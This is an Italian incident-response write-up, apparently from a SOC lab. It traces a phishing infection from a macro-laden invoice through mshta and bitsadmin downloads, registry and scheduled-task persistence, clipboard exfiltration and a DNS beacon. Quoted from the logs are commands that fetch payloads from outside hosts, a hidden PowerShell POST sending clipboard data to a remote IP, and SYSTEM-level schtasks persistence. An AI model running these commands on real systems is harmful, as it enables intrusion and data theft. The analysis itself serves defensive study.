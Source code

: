 

Email & Proxy log

![ ](../image/5a.png)

Endpoint/Host logs

![ ](../image/5b.png)




# 


```
Email Delivery
 └── 08:16:41 MAILGW01 → Email da billing@invoices-cloud[.]com (Invoice_0822.docm in allegato)
 └── 08:17:03 MAILGW01 amavis → Segnalata come CLEAN, consegnata alla mailbox
 └── 09:01:26 O365 → Outlook sincronizza il messaggio su WIN10-LAPTOP
```

08:16:41...il server di posta MAILGW01 riceve un’email proveniente da billing@invoices-cloud[.]com, con oggetto Invoice_0822.docm. L’allegato è un documento Word con macro abilitate, tipicamente usato dagli attaccanti per introdurre codice malevolo. L’email è indirizzata all’utente a.wilson@corp.local.

08:17:03, l’email passa attraverso il filtro amavis, che controlla spam e malware. Il messaggio però viene marcato come CLEAN e inoltrato normalmente alla casella dell’utente. Questo è il primo punto debole.. il sistema di sicurezza non riconosce il rischio e consente la consegna dell’allegato.

09:01:26, il servizio O365 sincronizza la posta con il computer dell’utente WIN10-LAPTOP, scaricando il messaggio e rendendolo disponibile localmente. In questo momento l’allegato è presente sul PC, ma non è stato ancora aperto. L’attacco resta quindi in fase dormiente, in attesa dell’interazione dell’utente.
Parallelamente, i log del proxy mostrano traffico normale e anche una richiesta sospetta verso doc-viewer.cdncloud[.]net, collegata alla stessa campagna. Questo indica che l’infrastruttura esterna del nemico è già attiva e pronta.

#



```

Esecuzione Allegato
 └── 09:13:01 WINWORD.EXE apre Invoice_0822.docm
     └── 09:13:07 wscript.exe esegue ~DF3A.vbs (macro payload)
         └── 09:14:59 mshta.exe scarica / cache ViewerControl.cab
             └── 09:15:04 ViewerControl.tmp creato su disco
             └── 09:15:06 rundll32 prova ad eseguire DLL export (fallisce, nessun entry point)
```


09:13:01, l’utente a.wilson apre l’allegato ricevuto tramite Outlook. Viene avviato WINWORD.EXE con comando WINWORD.EXE `C:\Users\a.wilson\Downloads\Invoice_0822.docm`. Questo processo ha PID 3560, generato da explorer.exe (PID 2824). Fin qui sembra un’azione normale di lavoro.
Pochi secondi dopo, alle 09:13:07, Word esegue una macro contenuta nel documento, che lancia wscript.exe con comando wscript.exe //B //E:vbscript `C:\Users\a.wilson\AppData\Local\Temp\~DF3A.vbs`. Il processo, con PID 3572, mostra che la macro ha creato ed eseguito uno script VBScript. È già un chiaro segnale di attività sospetta, visto che Word non dovrebbe avviare script.

09:14:59, lo script genera un altro processo... `mshta.exe`, un tool legittimo di Windows usato per eseguire applicazioni HTML. Il comando è 
`mshta http://cdn-docs[.]io/cab/ViewerControl[.]cab#main`
 Questo processo, con PID 3611, scarica un componente malevolo dalla rete. L’uso di mshta è tipico di attacchi fileless.
Pochi secondi dopo, alle 09:15:04, il sistema registra la creazione del file 
`C:\ProgramData\ViewerControl[.]tmp (hash SHA256=7B1F5D2…)`. È il payload scaricato.

Infine,09:15:06, il processo `rundll32.exe `(PID 3620) tenta di eseguire il file appena salvato con` rundll32 C:\ProgramData\ViewerControl[.]tmp,Export`. L’operazione però fallisce con errore STATUS_DLL_NOT_FOUND, perché il file non è un vero DLL.

#


```
[Fase di Download]
 └── 10:03:05 bitsadmin.exe scarica zoom_update.exe da media-storage[.]cc
     └── 10:03:33 zoom_update.exe salvato in Downloads
     └── 10:04:01 zoom_update.exe eseguito (/quiet)
```


10:03:05, sul computer di a.wilson parte il processo `bitsadmin.exe` (PID 5012), uno strumento legittimo di Windows usato per trasferimenti in background. 
`bitsadmin /transfer u /download /priority NORMAL http://media-storage.cc/update/zoom_update.exe C:\Users\a.wilson\Downloads\zoom_update.exe`
...mostra che l’attaccante sfrutta bitsadmin per scaricare un file eseguibile esterno, chiamato `zoom_update.exe`, dal dominio malevolo media-storage[.]cc. Il processo viene lanciato da svchost.exe (PID 980), segno che l’attività è mascherata come legittima.

10:03:33, Sysmon registra la creazione del file `C:\Users\a.wilson\Downloads\zoom_update.exe`. L’hash SHA256 associato è E4C1A9F…(non si vede tutto l’hash dal log), confermando che si tratta di un nuovo binario scritto sul disco. Il fatto che sia salvato nella cartella Downloads aumenta il rischio che l’utente non lo noti immediatamente, ma che venga eseguito in seguito.
Infatti, 

pochi secondi dopo, alle 10:04:01, l’utente (o uno script) avvia il file con ilcmd:
`C:\Users\a.wilson\Downloads\zoom_update.exe /quiet`
Il nuovo processo ha PID 5050 e viene lanciato da explorer.exe (PID 2824). Il parametro /quiet indica che l’esecuzione avviene senza finestra o notifiche visibili, comportamento tipico dei malware che vogliono rimanere nascosti.
Questa fase conclude con successo il download e l’esecuzione del payload malevolo, aprendo la strada alla persistenza e al collegamento con i server di comando e controllo.

#



```
[Installazione Persistenza]
 └── 10:04:04 Registry Run key → ZoomHelper (zh.exe)
 └── 10:04:29 TaskScheduler task "\User\ZoomHelperUpdate" creato
     └── 10:05:01 zh.exe lanciato tramite scheduled task
```
10:04:04, subito dopo l’esecuzione di `zoom_update.exe `(PID 5050), viene creato un nuovo valore di registro in `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` chiamato `ZoomHelper`. Questo valore punta a 
`C:\Users\a.wilson\AppData\Roaming\ZoomHelper\zh.exe`. In questo modo, ad ogni avvio del sistema, il programma malevolo partirà automaticamente.

Alle 10:04:09, Sysmon registra che lo stesso eseguibile tenta una connessione in uscita verso `203.0.113.50:443`. È il primo contatto con l’infrastruttura di comando e controllo, ma il processo resta sotto il PID 5050.
Pochi secondi dopo, alle 10:04:13, viene scritto sul disco il file zh.exe in `C:\Users\a.wilson\AppData\Roaming\ZoomHelper\`.  è la vera backdoor usata dall’attaccante.

10:04:29, i log mostrano che il malware registra un’attività nel Task Scheduler, con il nome \User\ZoomHelperUpdate. L’autore risulta a.wilson, e l’azione è lanciare zh.exe -update. Ciò garantisce che anche se l’utente cancella il valore Run nel registro, l’attività pianificata farà ripartire l’infezione.
Infine, alle 10:05:01, il task viene eseguito, generando un nuovo processo con PID 5121, che lancia direttamente zh.exe.

#


```
[C2 & Data Exfiltration ]
 └── 10:07:44 zh.exe genera powershell.exe → POST clipboard data → 203.0.113.50/api/p
 └── 10:12:37 Registry Load key → zh.exe aggiunto (seconda persistenza)
 └── 10:17:19 zh.exe invia DNS beacon → 198.51.100.44:53
```

Alle 10:07:44, il processo zh.exe (PID 5121, avviato dal task pianificato) genera un nuovo sottoprocesso powershell.exe (PID 5184). 
`powershell -nop -w hidden -c Invoke-RestMethod https://203.0.113.50/api/p -Method POST -Body (Get-Clipboard)`
Questo significa che il malware raccoglie i dati copiati negli appunti dell’utente e li invia al server remoto 203.0.113.50 tramite protocollo HTTPS. L’uso di PowerShell con parametri -nop e -w hidden è tipico di esecuzioni stealth, senza mostrare finestre visibili.

Alle 10:12:03, lo stesso zh.exe (PID 5121) crea un nuovo processo cmd.exe (PID 5242) con ...
`schtasks /create /sc minute /mo 30 /tn \System\ZhSvc /tr C:\Users\a.wilson\AppData\Roaming\ZoomHelper\zh.exe /ru SYSTEM`
L’operazione riesce, creando un nuovo meccanismo di persistenza a livello SYSTEM, anche se l’utente normale venisse rimosso.
Poi  zh.exe scrive un ulteriore valore di registro in `HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load`, che punta di nuovo a zh.exe. Questo rappresenta il secondo layer di persistenza.

Infine, alle 10:17:19, zh.exe stabilisce un canale di comunicazione alternativo tramite DNS beacon, connesso all’IP 198.51.100.44:53 usando protocollo UDP. Questo permette all’attaccante di mantenere il controllo anche se le connessioni HTTPS fossero bloccate.

poi a.wilson si è disconnesso da WIN10-LAPTOP per inattività (IdleTimeout).
Questo segna la fine della sessione, ma il malware zh.exe rimane persistente nel sistema.


